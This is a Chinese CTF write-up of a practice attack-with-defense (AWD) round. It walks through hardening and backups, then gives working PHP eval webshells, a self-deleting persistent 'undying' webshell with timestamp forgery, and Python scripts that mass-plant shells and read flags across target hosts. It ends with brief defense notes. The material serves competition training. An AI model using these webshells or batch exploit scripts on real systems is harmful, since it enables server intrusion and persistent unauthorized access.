浅谈awd流程
自从上次被虐已经过去了一个月，今天我自己搭建了一个平台，来模拟一次awd
平台搭建就不说了，自己找个靶场就可以玩
不过为了模拟效果，我自己搭建了一个平台

我选了较为简单的靶场

开搞
手速——awd必做流程
第一步大家都一样，是个拼速度的工作
连接xshell
更改ssh连接密码，如何不想被别人把你的改了，这步可以忽略
当然大多数情况密码是随机的，所以延后处理

连接后直接passwd即可
连接Xftp
将网站源代码dump下来

直接打包即可，打包后scp到本机，个人感觉用scp命令比直接拖快一点
这里也是给自己一个备份，不然被打崩了都没法恢复
找到后台
进后台，改自己后台密码，你一定不想自己的堡垒机自己进不去，对面改了你的密码疯狂打你
审计
快速修复简单的shell
将源码拖进D盾，这可以让我们快速找到已知的一句话
当然大多数时候是找不到的

找到了几个后门，迅速确定一下，然后关掉它们


在自己本机上运行，尝试着执行这些shell拿到flag，本地一分钟内起不了就算了，盲猜效果或者拿自己的靶机测试
不过这步其实没有必要，D盾能扫到的，大家一般都修复了，如果有新手或者菜鸟，到可以试试
当然说不定有人没修
并时刻注意靶机的运行状态，不要让网站崩掉，一但崩掉，立刻修复网站，防止掉分
利用漏洞，批量化flag
最简单的shell.php文件夹不做分析，学过的都懂，这里直接分析其他的

拿log1.php举例分析
这里绝对式故意的，将get，post等请求的参数进行json编码，然后写进log.php文件
过分的是上面的log.txt居然注释了
以防万一，这里直接把 fwrite 注释掉
在本地上传成功，直接打



这样就拿到了flag
flag每五分钟刷新一轮，所以我们无论找到几个利用点，只需要提一次flag即可
一般awd队伍常在30队以上，一个个提显然是不明智的，所以我们需要写批量化脚本
顺手提掉到手的flag，浪费可耻，开始写脚本
import re
import requests
import os
def shell(url):
shell_url = url + "/include/log1.php"
data_a = {
"aa": "<?php @eval($_POST[atmujie]);?>"
}
res_shell = requests.post(url = shell_url ,data=data_a)
shell_url_2 = url + "/log.php"
data = {
"atmujie": "system('cat /flag');"
}
res_flag = requests.post(url=shell_url_2,data=data).text
return res_flag
for ip in range(1,4):
if ip == 1:
continue
url = "http://1.15.224.114:900{}".format(ip)
shell_flag = shell(url)
flag = re.findall("hctf{(.*?)}",shell_flag)[0]
flag = "hctf{"+flag+"}"
sy = os.system('curl -X POST http://192.168.135.133:19999/api/flag -H "Authorization: 576d130d6ab595dc5a60e8f9b197a879" -d "{ \\"flag\\": \\"hctf{'+flag+'}\\" }"')
sy = str(sy)
真的扎心，一个批量化我写了二十多分钟,还写的贼拉跨，还是不够强
然后就可以每轮提一波了
审计D盾未能扫到的漏洞
当利用完了很明显的后门，接下来就该审计代码，找找不那么明显的后门了
这里不做分析，根据情况审计即可
后门利用
找到可利用的后门后，一个个的跑一句话显然是不理智的，这样会很麻烦
不提耗时的问题，只说漏洞被对方修复或者网站出现问题就会功亏一溃
直接利用不是一个好主意，这时就要用到权限维持
上传不死马
不死马是维持权限最简单好用的办法
原理：
通过已知的漏洞，写入一个自启动的php文件，该文件会将脚本写入opcode,达成根据设定好的时间自动运行的效果
不死马脚本：
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.atmujie.php';
$code = '<?php if(md5($_GET["password"])=="7ac0852c4c3cfff535d3c746a9064daf"){@eval($_POST[a]);} ?>';
//pass=pass
while (1){
file_put_contents($file,$code);
system('touch -m -d "2018-12-01 09:10:12" .atmujie.php');
usleep(5000);
}
?>
//password=atmujie
成功传入不死马后，我们可以通过不死马来提flag

当然不死马的伪装的好不好，得看思路骚不骚
这里有个小误区
批量上传
同直接对漏洞的利用，一个一个的传不死马同样很麻烦，所以写批量脚本来解决这个问题
一键上传所有存在此漏洞的队伍
from base64 import urlsafe_b64encode
import re
from sys import exec_prefix
import requests
from urllib.parse import unquote,quote
import os
#读取一句话木马
def tip():
with open(r"E:\My_木马\awd不死马\mujie.php") as f:
mujie = quote(f.read())
return mujie
def post(url,mujie):
data = {
"admin_ccmd": "file_put_contents(\"/var/www/html/m1ujie.php\",urldecode(\"{}\"));".format(mujie)
}
# print(data)
res_post = requests.post(url=url+"/include/shell.php",data=data)
return "成功"
if __name__ == "__main__":
mujie = tip()
for ip in range(1,4):
if ip == 1:
continue
url = "http://1.15.224.114:900{}".format(ip)
post(url,mujie)
url_shell = url + "/.atmujie.php?password=atmujie"
data_shell = {
"atmujie": "system('cat /flag.txt');"
}
res_shell = requests.post(url=url_shell,data = data_shell).text
print(res_shell)
flag = re.findall("hctf{(.*?)}",res_shell)
flag = "hctf{"+flag+"}"
print(flag)
只是个例子，写的太差了
然后配合批量提flag脚本提flag就行
基本的攻击部分到这里就结束了，接下来就是审计代码，找到那些隐藏较深的漏洞进行利用，这里就不分析了
接下来是防御部分
防御
漏洞修复
最基础的修复很简单，只需要将漏洞的关键语句删除即可
而更深的漏洞，需要一定的代码功底，这种漏洞一不留神就会导致网站Down掉
这里不对整个的堡垒机进行漏洞分析
上传waf
在不一定找的到功能漏洞的情况下，直接上传waf是个不错的选择

一个好的waf可以有效的保护堡垒机
比如图中的waf就是学长制作的，可以检测并自动杀掉不死马，并且保护网站文件不被非法篡改
当然删库就没办法了

还好，有备份

waf就不贴了，尊重知识产权，顺便防止看到这里的各位不会拿我的waf打我
想要好的waf，就努力学，自己写
结语
我这篇笔记真的水
这里只是很浅的分析了一波流程，并没有什么实质性的东西，就当是理清一下awd吧
具体的还是要根据实际情况实际操作
awd，考察的就是随机应变的能力和基本功